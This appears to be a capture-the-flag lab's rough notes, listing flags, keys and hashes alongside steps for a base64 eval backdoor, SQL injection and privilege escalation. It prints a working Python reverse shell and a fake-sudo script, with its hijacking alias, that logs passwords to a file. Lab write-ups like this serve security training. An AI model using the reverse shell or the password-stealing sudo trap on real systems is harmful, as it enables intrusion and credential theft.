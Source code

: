# Found these vulnerabilities:

* the attacker after he made his operation left a way to trigger and spawn a reverse shell to have a persistance on the server. In order to reach this goal the attacker saved in the test_comment.php file an eval expression (function that allows to execute code from string) encoded in base64, decoding there will be the following malicious code



root flag
Key:
pIsTOK52x5NH8Um7e1a2PQV8JVn6qeoC

Data:
110bf4e37f4133c7e6bcb6e3b326322b4cded14fd80c3f64ef34e64090adb568

#######################################


<!-- ||K||E||Y||-->
                    <!-- 5Mk3rXNhMC8Osgpki3iOcdVTkSAIMdxE -->
426ce929ea051285e551eaf2b2de2bf463ae78456fa3b64adb5fd2214d985e34


sqli
nujnlhrZZKidXugUkCtiUgqDMuoDbnA3
cc5713089b0a9335111f55bd25e39130b843dabadf63e1170c668d0a4a6d5e37
{FLAG_INTWEBSI_SQLI_306481}

python pseudoterminal
IUt0zFZKcPsLo2yek7OgSpockEd80LOA
73b0c826e8be11fa266896bb1150d1844f88fc5458de5a0546b1a2344e9a57b8
{FLAG_PSEUTERM_COIN_256579}

priv esc
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("172.18.0.1",8888));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1);os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")


/host # ls
flag.txt      johnsysadmin
/host # cat flag.txt
Key:
pIsTOK52x5NH8Um7e1a2PQV8JVn6qeoC
Data:
110bf4e37f4133c7e6bcb6e3b326322b4cded14fd80c3f64ef34e64090adb568/host #
{FLAG_PSEUTERM_MISC_359867}


/host/johnsysadmin # cd .locale/
/host/johnsysadmin/.locale # ls
fsudo
/host/johnsysadmin/.locale # cat fsudo
read -sp "[sudo] password for $USER: " sudopass
echo ""
#991b5887ab76f9fa6061ee44d2d20a8e42de631308853f38f5883e36c8b1d3bc
sleep 2
echo "Sorry, try again."
echo $sudopass >> /etc/pass.txt
---------
alias sudo=/home/johnsysadmin/.locale/fsudo
#((K))((E))((Y)) --> 30sCHumIfzWRhhoKRoyFTa7Yx0LaXvmu
{FLAG_MAINHOST_FASU_172836}
